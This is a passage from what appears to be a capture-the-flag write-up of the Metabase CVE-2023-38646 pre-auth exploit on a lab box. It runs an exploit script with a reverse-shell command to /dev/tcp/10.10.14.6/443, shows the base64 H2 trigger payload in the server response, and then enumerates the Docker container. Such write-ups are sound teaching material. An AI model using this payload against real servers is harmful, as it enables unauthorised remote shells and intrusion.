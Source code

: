 The input command is base64 encoded, and then used in the request in the same
brace-expanded format:

![image-20240313200422498](../img/image-20240313200422498.png)

#### Running

Running this is very simple:

    
    
    oxdf@hacky$ python cve-2023-38646.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
    Payload sent!
    
    NOTE: Make sure to open a listener on the specified port and address if you entered a reverse shell command.
    
    RESPONSE:
    {"message":"Error creating or initializing trigger \"PWNSHELL\" object, class \"..source..\", cause: \"org.h2.message.DbException: Syntax error in SQL statement \"\"//javascript\\\\000ajava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYx}|{base64,-d}|{bash,-i}')\\\\000a\"\" [42000-212]\"; see root cause for details; SQL statement:\nSET TRACE_LEVEL_SYSTEM_OUT 1 [90043-212]"}
    

While it returns an error here, it also returns a shell at `nc` listening on
443.

## Shell as metalytics

### Enumeration

#### Container

I can try a [shell upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q), but
neither `script` nor `python` are installed. This smells like a container.
Additionally, the hostname is random characters. There’s a `.dockerenv` file
in the system root:

    
    
    b7ed0bb2dd1e:/$ ls -a
    .
    ..
    .dockerenv
    app
    bin
    dev
    etc
    home
    lib
    media
    metabase.db
    mnt
    opt
    plugins
    proc
    root
    run
    sbin
    srv
    sys
    tmp
    usr
